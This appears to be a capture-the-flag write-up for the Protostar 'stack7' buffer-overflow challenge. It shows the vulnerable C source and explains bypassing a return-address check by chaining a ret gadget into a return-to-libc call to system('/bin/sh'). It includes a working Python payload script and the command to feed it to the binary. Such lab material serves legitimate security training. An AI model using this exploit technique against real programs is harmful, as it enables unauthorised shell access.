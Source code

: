 # Stack7

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {       // <- prevent to return to both in libc and stack
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Overview & Main Idea

- This challenge is basically the same as stack6, but it's prevent us to use buffer overflow to redirect the program into stack or libc

![img](protostar/stack7/assets/info_proc_map.png)

![img](protostar/stack7/assets/sys_ex_addr.png)

![img](protostar/stack7/assets/ret.png)

- But we can return to any text segment of this program which we can find with objdump and use it like a repeater.

![img](/protostar/stack7/assets/text_seg.png)

- Let's find some ret instructions to bypass "if condition" :3

![img](/protostar/stack7/assets/ret_addr.png)

- So many rets, but I choose 0x8048383.

```
|          . . . . .
|  + ----------------------+ 
|  |                       | 
|  |   80 bytes padding    | 
|  |                       | 
S  + ----------------------+       
t  |    ret (0x08048383)   |     <- ret of getpath() 
a  + ----------------------+ 
c  |  system (0xb7ecffb0)  | 
k  + ----------------------+ 
|  |   phake ret ("aaaa")  | 
|  + ----------------------+ 
|  | "/bin/sh"(0xb7fb63bf) |     <- feed argument for system()
|  +-----------------------+
|          . . . . .
```

## Exploit

```python
# file name: exp.py

padding = "a"*80
ret_addr = "\x83\x83\x04\x08"
system_addr = "\xb0\xff\xec\xb7"
fake_ret = "a"*4
binsh_addr = "\xbf\x63\xfb\xb7"

payload = ""
payload += padding + ret_addr + system_addr + fake_ret + binsh_addr

print(payload)

# python exp.py > temp.pwn
# (cat temp.pwn; cat) | ./stack7
```

## Result

![img](/protostar/stack7/assets/result.png)